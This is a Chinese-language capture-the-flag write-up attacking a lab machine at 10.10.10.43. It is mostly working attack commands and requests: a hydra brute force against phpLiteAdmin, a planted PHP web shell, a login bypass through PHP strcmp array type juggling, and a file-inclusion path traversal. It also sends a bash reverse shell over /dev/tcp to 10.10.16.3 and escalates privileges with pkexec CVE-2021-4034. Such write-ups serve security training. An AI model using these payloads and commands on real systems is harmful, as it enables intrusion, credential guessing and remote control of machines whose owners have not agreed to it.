

nmap

```bash
sudo nmap -T4 -p- -vv -sV 10.10.10.43
```


dirbuster  80端口


dirbuster  443端口


这里用了不同的字典扫了几遍，扫出的关键路径和文件

`info.php`、`/department` 、`/db`

phpLiteAdmin v1.9


搜了下版本存在远程代码执行，但是需要登录


使用hydra爆破

```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V
```

得到密码 `password123`


登录成功


插入一个恶意的php文件



插入表


写入字段默认值

Default Value

```bash
<?php system($_REQUEST["cmd"]);?>
```


文件写入，但是不在web目录，无法解析


这里暂时没办法往下渗透了。

查看`info.php`


allow\_url\_fopen=off

allow\_url\_include=on

<http://10.10.10.43/department/>


这里password参数存在php弱类型的问题

把参数password改为password\[]

当传递参数去和密码比较的时候

```bash
if(strcmp($_REQUEST['password'], $password) == 0)
```

因为传递了一个数组去和密码进行比较，php会报错返回Null，Null和0去比较结果为true。导致if被绕过，导致可以直接登录

以下请求直接登录成功

```bash
POST /department/login.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.10.10.43
Connection: close
Referer: http://10.10.10.43/department/login.php
Cookie: PHPSESSID=aio9cnnl1ish99moqj1lu35it6
Upgrade-Insecure-Requests: 1

username=admin&password[]=
```

admin


notes参数存在文件包含，显示了ninevehNotes.txt的内容在下方


前面通过`info.php`发现`allow_url_include=on`是开启的，尝试使用php伪协议执行命令

报错了，尝试了几次发现notes存在参数检查，必须包含`ninevehNotes`字符串


notes=/ninevehNotes/../../../../../../../etc/passwd


这样就无法直接包含`php://input`

可以包含443端口之前写入的恶意文件 `/var/tmp/exp.php`

```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../var/tmp/exp.php&cmd=id
```

执行成功


反弹shell

```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../var/tmp/exp.php&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/2333+0>%261'
```

获得shell


pkexec提权

python3 [CVE-2021-4034-py3.py](http://CVE-2021-4034-py3.py "CVE-2021-4034-py3.py")


